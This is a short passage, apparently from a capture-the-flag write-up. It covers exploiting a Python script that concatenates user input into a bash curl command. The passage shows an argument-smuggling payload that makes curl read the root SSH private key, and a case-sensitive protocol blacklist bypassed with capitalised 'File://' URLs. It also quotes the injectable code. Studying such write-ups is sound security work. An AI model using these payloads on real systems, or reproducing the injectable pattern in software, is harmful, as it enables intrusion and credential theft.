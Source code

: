 it is possible to read files from stderr of curl with `-K` but this messed-up the file.
```bash
{-K,/root/.ssh/id_rsa}
```

![](/assets/img/posts/unicode/read-root-rsa.png)

There is a one comparison in the python source that blacklisting some protocols
```py
if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
print('INVALID URL')
```

But this is case sensitive and eassliy bypass capital character like `File`, `Gopher`, `Mysql` without affecting the behaviour in curl command.
```bash
code@code:~$ curl File:///etc/hostname
code
```

but there is one more error, in the source code curl command outputting in the `/root/reports/` directory
```py
cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
```

but it looks like that direcotry in not presented there.

![](/assets/img/posts/unicode/no-dir-error.png)
